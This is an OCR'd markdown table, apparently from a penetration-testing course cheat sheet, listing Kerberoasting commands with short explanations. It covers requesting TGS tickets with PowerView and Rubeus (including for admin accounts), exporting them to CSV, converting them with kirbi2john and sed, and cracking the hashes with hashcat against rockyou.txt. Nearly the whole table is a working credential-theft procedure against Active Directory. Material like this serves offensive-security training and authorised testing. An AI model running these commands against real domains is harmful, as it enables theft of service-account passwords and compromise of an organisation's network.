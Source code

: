 | `cat encoded_file \| base64 -d > sqldev.kirbi`                                                                                                                                                               | Used to output a file (`encoded_file`) into a .kirbi file in base64 (`base64 -d > sqldev.kirbi`) format from a Linux-based host.                                                                 |
| `python2.7 kirbi2john.py sqldev.kirbi`                                                                                                                                                                       | Used to extract the `Kerberos ticket`. This also creates a file called `crack_file` from a Linux-based host.                                                                                     |
| `sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat`                                                                                                                | Used to modify the `crack_file` for `Hashcat` from a Linux-based host.                                                                                                                           |
| `cat sqldev_tgs_hashcat`                                                                                                                                                                                     | Used to view the prepared hash from a Linux-based host.                                                                                                                                          |
| `hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt`                                                                                                                                       | Used to crack the prepared Kerberos ticket hash (`sqldev_tgs_hashcat`) using a wordlist (`rockyou.txt`) from a Linux-based host.                                                                 |
| `Import-Module .\PowerView.ps1 Get-DomainUser * -spn \| select samaccountname`                                                                                                                               | Uses PowerView tool to extract `TGS Tickets` . Performed from a Windows-based host.                                                                                                              |
| `Get-DomainUser -Identity sqldev \| Get-DomainSPNTicket -Format Hashcat`                                                                                                                                     | PowerView tool used to download/request the TGS ticket of a specific ticket and automatically format it for `Hashcat` from a Windows-based host.                                                 |
| `Get-DomainUser * -SPN \| Get-DomainSPNTicket -Format Hashcat \| Export-Csv .\ilfreight_tgs.csv -NoTypeInformation`                                                                                          | Exports all TGS tickets to a `.CSV` file (`ilfreight_tgs.csv`) from a Windows-based host.                                                                                                        |
| `cat .\ilfreight_tgs.csv`                                                                                                                                                                                    | Used to view the contents of the .csv file from a Windows-based host.                                                                                                                            |
| `.\Rubeus.exe`                                                                                                                                                                                               | Used to view the options and functionality possible with the tool `Rubeus`. Performed from a Windows-based host.                                                                                 |
| `.\Rubeus.exe kerberoast /stats`                                                                                                                                                                             | Used to check the kerberoast stats (`/stats`) within the target Windows domain from a Windows-based host.                                                                                        |
| `.\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap`                                                                                                                                                 | Used to request/download TGS tickets for accounts with the `admin` count set to `1` then formats the output in an easy to view & crack manner (`/nowrap`) . Performed from a Windows-based host. |
| `.\Rubeus.exe kerberoast /user:testspn /nowrap`                                                                                                                                                              | Used to request/download a TGS ticket for a specific user (`/user:testspn`) the formats the output in an easy to view & crack manner (`/nowrap`). Performed from a Windows-based host.           |
| `Get-DomainUser testspn -Properties samaccountname,serviceprincipalname,msds-supportedencryptiontypes`                                                                                                       | PowerView tool used to check the `msDS-SupportedEncryptionType` attribute associated with a specific user account (`testspn`). Performed from a Windows-based host.                              |